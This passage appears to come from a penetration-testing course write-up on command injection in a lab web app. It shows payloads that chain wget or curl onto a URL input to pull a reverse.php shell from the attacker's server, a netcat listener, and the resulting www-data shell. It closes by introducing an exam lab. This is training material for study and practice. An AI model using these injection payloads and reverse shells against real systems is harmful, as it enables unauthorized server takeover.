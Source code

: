 put your ip and your port, and then input a wget command to go and upload your file on the server ->

```
https://tcm-sec.com \n wget 172.16.X.X:9898/reverse.php
```

just to be sure it went through, we can look at our listener:                                                                                                                &#x20;

<pre><code><strong>┌──(root㉿kali)-[/home/kali]
</strong>└─# python -m http.server 9898
Serving HTTP on 0.0.0.0 port 9898 (http://0.0.0.0:9898/) ...
172.X.X.X - - [31/Jan/2024 11:03:15] code 404, message File not found
172.X.X.X - - [31/Jan/2024 11:03:15] "HEAD /test HTTP/1.1" 404 -
172.X.X.X - - [31/Jan/2024 12:27:14] "HEAD /reverse.php HTTP/1.1" 200 -
</code></pre>

we see a status 200 on our reverse.php file that we modified with our ip and port

(there were some modifications on the server while writing the write-up, new payload is:)&#x20;

```
https://tcm-sec.com && curl 172.16.X.X:9898/reverse.php > /var/www/html/reverse.php
```

we set up a listener with a&#x20;

```
nc -nvlp 4444
```

and if the new payload is successful on our HTTP server with a code 200, we go and check the webpage where it stored our file → localhost/reverse.php

and if everything is well done on our netcat listener, we get a&#x20;

```
┌──(root㉿kali)-[/home/kali]
└─# nc -nlvp 4444    
listening on [any] 4444 ...
connect to [172.16.X.X] from (UNKNOWN) [172.18.X.X] 56136
Linux e4ce52282ed6 6.5.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.6-1kali1 (2023-10-09) x86_64 GNU/Linux
 18:50:53 up  9:32,  0 users,  load average: 0.76, 0.63, 0.55
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

we successfully popped a shell on the server :tada:

### Exam lab

<figure><img src="../../../../.gitbook/assets/image (240).png" alt=""><figcaption></figcaption></figure>

our exam lab is a position calculator that takes 2 inputs. Thankfully we got a verbose website and see what the server does and the result. Let's hack
